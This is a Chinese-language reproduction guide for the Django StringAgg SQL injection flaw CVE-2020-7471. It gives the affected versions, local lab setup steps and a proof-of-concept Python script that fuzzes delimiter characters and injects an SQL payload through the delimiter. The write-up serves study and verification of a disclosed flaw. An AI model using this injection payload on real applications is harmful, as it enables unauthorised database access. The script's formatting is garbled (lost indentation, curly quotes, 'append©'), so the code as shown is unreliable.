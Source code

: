 ```yaml
---
title: "（CVE-2020-7471）Django sql注入漏洞"
id: zhfly2887
---
```


# （CVE-2020-7471）Django sql注入漏洞

## 一、漏洞简介

Django是高水准的由Python编程语言驱动的一个开源Web应用程序框架，起源于开源社区。使用Django，程序员可以方便、快捷地创建高品质、易维护、数据库驱动的应用程序，应用广泛。2020年2月初，Django 官方发布安全通告公布了一个通过StringAgg（分隔符）实现利用的潜在SQL注入漏洞（CVE-2020-7471）。攻击者可通过构造分隔符传递给聚合函数contrib.postgres.aggregates.StringAgg，从而绕过转义并注入恶意SQL语句

## 二、漏洞影响

Django 1.11.x < 1.11.28
Django 2.2.x < 2.2.10
Django 3.0.x < 3.0.3
Django 主开发分支

## 三、复现过程

### 环境安装

1.  安装 django 漏洞版本，我测试用的是

    ```
    pip install django==3.0.2 -i https://pypi.tuna.tsinghua.edu.cn/simple 
    ```

2.  参考 https://www.runoob.com/postgresql/windows-install-postgresql.html 完成 postgres 数据库的安装

3.  新建数据库

    ```
    CREATE DATABASE test; 
    ```

4.  修改 sqlvul_projects/settings.py 里面的数据库配置，如果上一步你安装用的默认配置（包括设置密码为postgres），就无需修改任何配置，可以跳过这一步

    ```
    DATABASES = {
        'default': {
            'ENGINE': 'django.db.backends.postgresql',
            'NAME': 'test',         # 数据库名称
            'USER': 'postgres',
            'PASSWORD': 'postgres', # 数据库用户密码
            'HOST': '127.0.0.1',    # 数据库地址
            'PORT': '5432',
        }
    } 
    ```

5.  通过 django 初始化数据表

    ```
    python3 manage.py migrate
    python3 manage.py makemigrations vul_app
    python3 manage.py migrate vul_app 
    ```

### poc

```
# encoding:utf-8
import os
import django
os.environ.setdefault("DJANGO_SETTINGS_MODULE", "sqlvul_project.settings")

# Django 版本大于等于1.7的时候，需要加上下面两句

if django.VERSION >= (1, 7):#自动判断版本

django.setup()

from vul_app.models import Info

from django.contrib.postgres.aggregates import StringAgg

from django.db.models import Count

“”"

postgres 预先执行的SQL

CREATE DATABASE test;

\c test;

\d 列出当前数据库的所有表格

“”"

def initdb():

data = [(‘li’,‘male’),(‘zhao’,‘male’),(‘zhang’,‘female’)]

for name,gender in data:

Info.objects.get_or_create(name=name,gender=gender)

def query():

# FUZZ delimiter

error_c = []

other_error_c = []

for c in “!@#$%^&*()_+=-|\”’:;?/>.<,{}[]":

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’,delimiter=c))

try:

for e in results:

pass

except IndexError:

error_c.append©

except:

other_error_c.append©

print(error_c)

print(other_error_c)

def query_with_evil():

‘’’

注入点证明

分别设置delimiter为 单引号 二个单引号 二个双引号

尝试注释后面的内容 ‘)–

:return:

‘’’

print("[+]正常的输出：")

payload = ‘-’

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’, delimiter=payload))

for e in results:

print(e)

print("[+]注入后的的输出：")

payload = ‘-’) AS “mydefinedname” FROM “vul_app_info” GROUP BY “vul_app_info”.“gender” LIMIT 1 OFFSET 1 – ’

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’, delimiter=payload))

for e in results:

print(e) `if **name** == ‘**main**’:

print(django.VERSION) # 测试版本 3.0.2

initdb()

query()

query_with_evil()` 
```

然后运行 POC 脚本`CVE-2020-7471.py`就可以了

> 漏洞环境及其poc下载地址：https://github.com/ianxtianxt/CVE-2020-7471